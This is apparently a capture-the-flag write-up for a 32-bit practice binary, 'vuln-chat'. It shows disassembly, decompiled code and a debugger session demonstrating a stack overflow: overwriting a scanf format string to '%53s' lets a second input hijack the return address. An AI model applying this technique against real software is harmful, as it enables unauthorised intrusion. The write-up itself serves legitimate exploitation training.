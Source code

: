 # Soln

`checksec` shows the only harden is `NX`:

```sh
❯ pwn checksec --file=vuln-chat
[*] '/home/pwent/code/personal/Linux_ED/Nightmare/pwn/vuln-chat/vuln-chat'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

`nm ./vuln-chat` shows an interesting function:

- `0804856b T printFlag`

`printFlag` isn't called directly.

`printFlag` calls `system` with "/bin/cat ./flag.txt":

`objdump -D ./vuln-chat -M intel | less`

```sh
0804856b <printFlag>:
 804856b:       55                      push   ebp
 804856c:       89 e5                   mov    ebp,esp
 804856e:       68 f0 86 04 08          push   0x80486f0
 8048573:       e8 a8 fe ff ff          call   8048420 <system@plt>
 8048578:       83 c4 04                add    esp,0x4
 804857b:       68 04 87 04 08          push   0x8048704
 8048580:       e8 8b fe ff ff          call   8048410 <puts@plt>
 8048585:       83 c4 04                add    esp,0x4
 8048588:       c9                      leave
 8048589:       c3                      ret
```

Where `0x80486f0` is:

```sh
Contents of section .rodata:
 80486e8 03000000 01000200 2f62696e 2f636174  ......../bin/cat
 80486f8 202e2f66 6c61672e 74787400 55736520   ./flag.txt.
```

`main` shows two calls to `scanf` into static length arrays.

From Ghidra:

```c

undefined4 main(void)

{
  undefined1 password [20];
  undefined1 name [20];
  undefined4 fmt;
  undefined1 local_5;
  
  setvbuf(stdout,NULL,2,0x14);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  fmt = L'\x73303325';
  local_5 = 0;
  __isoc99_scanf(&fmt,name);
  printf("Welcome %s!\n",name);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ",name);
  __isoc99_scanf(&fmt,password);
  puts("djinn: Sorry. That\'s not good enough");
  fflush(stdout);
  return 0;
}
```

Where `fmt` is: `%30s`:

```sh
00:0000│ esp 0xffffcce0 —▸ 0xffffcd13 ◂— '%30s'
```

The stack is laid out as follows:

```sh
undefined4        Stack[-0x9]:4  fmt
undefined1[20]    Stack[-0x1d]   name
undefined1[20]    Stack[-0x31]   password
```

So we can overflow name by 10 and password by 10.

That's only useful for `name` due to the stack layout and 10 bytes of overflow isn't enough to reach
the saved return pointer 4 for `fmt`, 4 for saved RBP, 2 for LSB of saved RIP.

But if we corrupt `fmt` on the first overflow, the second overflow at `password` can overflow much
further.

For example, if we set `fmt` to `%53s`, we get RIP control when we input `password`:

```sh
pwndbg> c
Continuing.
----------- Welcome to vuln-chat -------------
Enter your username: AAAAAAAAAAAAAAAAAAAA%53s
Welcome AAAAAAAAAAAAAAAAAAAA%53s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAA%53s: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
djinn: Sorry. That's not good enough

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

Note the 20 `"A"`s is the difference between `name` and `fmt` in the stack layout:

`0x1d - 0x9 = 0x14`

Note I found `49+4=53` for the second payload using `pwn cyclic`.

